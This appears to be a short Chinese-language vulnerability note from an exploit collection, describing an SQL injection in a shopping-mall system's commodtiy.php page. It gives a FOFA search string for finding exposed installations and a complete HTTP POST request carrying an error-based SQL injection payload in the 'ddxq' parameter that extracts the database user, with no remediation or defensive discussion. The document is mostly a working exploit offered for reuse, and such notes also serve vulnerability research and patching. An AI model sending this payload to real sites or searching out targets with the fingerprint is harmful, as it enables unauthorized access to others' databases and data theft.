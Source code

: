 ## 购物商城系统commodtiy存在任意SQL注入漏洞
 购物商城系统commodtiy存在任意SQL注入漏洞

## fofa
```plain
"/public/gwc.php"
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1715270637996-7f6f5141-b58d-4ecc-af15-6b309fb958a3.png)

## 三、漏洞复现
```http
POST /public/commodtiy.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Connection: close

ddxq='||(SELECT 0x4776756d WHERE 3443=3443 AND (SELECT 9303 FROM(SELECT COUNT(*),CONCAT((MID((IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),1,54)),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
```



![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1731861954485-5da4b05c-698c-40e1-a7d4-7819586d55df.png)

